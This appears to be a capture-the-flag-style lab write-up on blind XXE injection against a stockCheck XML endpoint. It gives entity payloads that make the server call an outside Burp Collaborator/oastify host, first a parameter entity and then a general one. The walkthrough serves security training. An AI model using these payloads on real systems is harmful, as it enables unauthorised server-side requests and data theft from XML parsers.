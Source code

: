 ```xml

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```
To solve the lab we need to make an out bound request to our collaborator server to solve the lab.

For this we can use the following payload

```xml
<!DOCTYPE root [<!ENTITY  % ext SYSTEM "http://burp-collaborator.net/">]>
<stockCheck>
  <productId>%ext;</productId>
  <storeId>1</storeId>
</stockCheck>
```

But in the response we get an error stating that - `Entities are not allowed for security reasons`

Request:

![image](https://github.com/user-attachments/assets/239aa631-2bce-4377-a4fe-595990885da1)

Response:

![image](https://github.com/user-attachments/assets/61f68094-04e1-405d-bade-cabf689aff26)



So instead of using parameterized entities, we use normal entities.


### 📦 Payload for Blind XXE

Replace your entity declaration to point to your **Burp Collaborator** domain (or any controlled external domain):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://r......c.oastify.com"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
````

> 🧠 Replace the `oastify.com` domain with your own Burp Collaborator payload URL.

![image](https://github.com/user-attachments/assets/efcb5a8a-0b32-47b7-b7f4-fe183e62492b)
